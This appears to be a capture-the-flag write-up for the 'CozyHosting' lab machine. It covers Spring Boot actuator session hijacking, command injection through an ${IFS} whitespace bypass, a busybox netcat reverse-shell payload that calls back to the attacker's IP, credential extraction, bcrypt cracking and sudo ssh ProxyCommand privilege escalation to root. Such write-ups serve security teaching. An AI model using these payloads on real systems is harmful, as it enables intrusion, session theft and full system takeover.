




Exploitation Summary
Exploitation process: The target machine was running a Java Spring Boot application with exposed actuator endpoints. By accessing the /actuator/sessions endpoint, I discovered an active session cookie belonging to user kanderson, which granted administrative access to the application.
The admin panel contained a functionality to check SSH connectivity to remote hosts. This feature was vulnerable to command injection through the username parameter, where whitespace filtering could be bypassed using the Internal Field Separator (${IFS}). By injecting a reverse shell payload using busybox nc, I gained initial access as the app user.
Post-exploitation enumeration revealed a JAR file containing PostgreSQL credentials in the application properties. Connecting to the database exposed bcrypt password hashes, one of which cracked to reveal the password manchesterunited for user josh. This user had sudo permissions to execute /usr/bin/ssh with any arguments, which was exploited using the ProxyCommand option to execute arbitrary commands as root.
Technologies/Exploits: Spring Boot actuator misconfiguration, session hijacking, command injection via IFS bypass, PostgreSQL credential exposure, bcrypt hash cracking, SSH ProxyCommand privilege escalation via sudo misconfiguration.
Initial Reconnaissance
I begin with an nmap scan to identify open ports and running services on the target:

The scan reveals SSH running on port 22 and an HTTP server on port 80. I add cozyhosting.htb to my /etc/hosts file to resolve the hostname locally.
Web Technology Fingerprinting
Running whatweb provides additional information about the web stack:
http://cozyhosting.htb [200 OK] Bootstrap, Content-Language[en-US], Country[RESERVED][ZZ],
Email[info@cozyhosting.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)],
IP[10.10.11.230], Lightbox, Script, Title[Cozy Hosting - Home],
UncommonHeaders[x-content-type-options], X-Frame-Options[DENY], X-XSS-Protection[0],
nginx[1.18.0]When accessing http://cozyhosting.htb/index.html, I encounter a distinctive error page:
Whitelabel Error Page
This application has no explicit mapping for /error, so you are seeing this as a fallback.
There was an unexpected error (type=Not Found, status=404).This "Whitelabel Error Page" is characteristic of Java Spring Boot applications, indicating the underlying technology stack.
Directory Enumeration - Spring Boot Discovery
Using feroxbuster, I discover several interesting endpoints including /login and /admin. To specifically target Spring Boot applications, I perform a more focused enumeration using a Spring Boot-specific wordlist:
feroxbuster -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/Programming-Language-Specific/Java-Spring-Boot.txtThis reveals multiple endpoints under the /actuator path, which are management and monitoring endpoints commonly exposed in Spring Boot applications.
Spring Boot Actuator Exploitation
Spring Boot Actuator provides several management endpoints that can leak sensitive information if improperly secured. Navigating to http://cozyhosting.htb/actuator/sessions, I discover active session data including a session cookie for user kanderson.
Session Hijacking
I copy the session cookie value from the /actuator/sessions endpoint and replace my own session cookie in the browser. With this stolen session, I can now access the /admin panel that was previously restricted.
Admin Panel Analysis
The admin panel presents an SSH connectivity checker interface:

This functionality appears to test SSH connectivity to remote hosts. I can input a hostname and username, and the application attempts an SSH connection.
Testing the SSH Functionality
To understand how this feature works, I set up a netcat listener on port 22:
sudo nc -lvnp 22When I submit my IP address with an arbitrary username through the form, I receive an SSH connection attempt:
listening on [any] 22 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.230] 38630
SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.3This confirms the application is executing SSH commands on the backend. The connection doesn't proceed beyond the initial handshake because it's attempting key-based authentication rather than password authentication.
Command Injection Discovery
Using Burp Suite to intercept and analyze the HTTP requests, I discover that when providing a valid hostname (like localhost), the application executes an SSH command and returns error messages that reveal internal command execution.

The error messages indicate that the application is filtering whitespace characters in the username parameter, likely as a security measure to prevent command injection.
Bypassing Whitespace Filtering
While spaces are filtered, I can bypass this restriction using the Internal Field Separator (${IFS}), which is a special bash variable that acts as a delimiter (defaulting to space, tab, and newline). This is a common technique to bypass basic command injection filters.
I confirm command execution with a simple test:

Initial Access - Reverse Shell
With confirmed command injection, I craft a reverse shell payload using busybox nc (a lightweight netcat implementation often available on minimal systems). The payload uses ${IFS} to replace spaces and %0a (URL-encoded newline) to separate commands:
POST /executessh HTTP/1.1
Host: cozyhosting.htb
Content-Type: application/x-www-form-urlencoded
host=localhost&username=a${IFS}%0abusybox${IFS}nc${IFS}10.10.16.2${IFS}443${IFS}-e${IFS}sh%0aBreaking down this payload:
host=localhost- Uses a valid hostname to pass validationusername=a${IFS}%0a- Starts with a dummy username followed by a newline to terminate the SSH commandbusybox${IFS}nc${IFS}10.10.16.2${IFS}443${IFS}-e${IFS}sh%0a- Executes busybox netcat connecting back to my machine on port 443, with the-e shflag to execute a shell upon connection
Setting up a listener:
sudo nc -lvnp 443I successfully receive a reverse shell as the app user.
Post-Exploitation Enumeration
After gaining access, I begin enumerating the system. In the /home directory, I notice a user named josh, who likely has access to the user flag.
I also discover that PostgreSQL is running locally on the machine. In the /app directory, I find the application JAR file:
ls -la /app
-rw-r--r-- 1 root root 60259688 Aug 11 2023 cloudhosting-0.0.1.jarExtracting Application Secrets
JAR files are essentially ZIP archives that can be extracted. I extract the contents to analyze the application configuration:
unzip cloudhosting-0.0.1.jar -d /tmp/extracted/Inside the extracted files, I locate the Spring Boot application properties file, which contains database credentials:
cat /tmp/extracted/BOOT-INF/classes/application.propertiesThe configuration file reveals:
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxRThese credentials grant access to the PostgreSQL database.
Database Enumeration
Connecting to PostgreSQL with the discovered credentials:
psql -h localhost -U postgres -d cozyhostingQuerying the users table reveals password hashes:
SELECT * FROM users; name | password | role
-----------+--------------------------------------------------------------+-------
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | AdminThese are bcrypt hashes (identifiable by the $2a$ prefix), which are designed to be computationally expensive to crack.
Password Cracking
I save the admin hash to a file and attempt to crack it using hashcat with mode 3200 (bcrypt):
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txtThe hash successfully cracks:
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunitedLateral Movement to User Josh
Testing the cracked password with the josh user account:
su josh
Password: manchesterunitedThe password is valid, granting access to josh's account and allowing me to retrieve the user flag.
Privilege Escalation - SSH ProxyCommand Abuse
Checking sudo privileges for josh:
sudo -lMatching Defaults entries for josh on localhost:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User josh may run the following commands on localhost:
(root) /usr/bin/ssh *Josh can execute /usr/bin/ssh with any arguments as root without a password. This is a dangerous sudo configuration that can be exploited for privilege escalation.
Understanding ProxyCommand Exploitation
SSH's ProxyCommand option allows executing an arbitrary command before establishing an SSH connection. This is typically used for connecting through proxy servers or jump hosts, but when combined with sudo permissions, it becomes a privilege escalation vector.
According to GTFOBins (https://gtfobins.github.io/gtfobins/ssh/#sudo), the following command will spawn a root shell:
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' xThis works because:
- The
ProxyCommandexecutes before SSH tries to connect - The semicolon terminates the proxy command context and starts a new command
sh 0<&2 1>&2spawns a shell with stdin and stdout redirected to stderr, providing an interactive shell- The command runs with root privileges due to sudo
- The
xat the end is a dummy hostname that SSH never actually tries to connect to
Obtaining Root Access
Executing the privilege escalation:
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x# whoami
root
#I now have root access and can retrieve the root flag, completing the machine.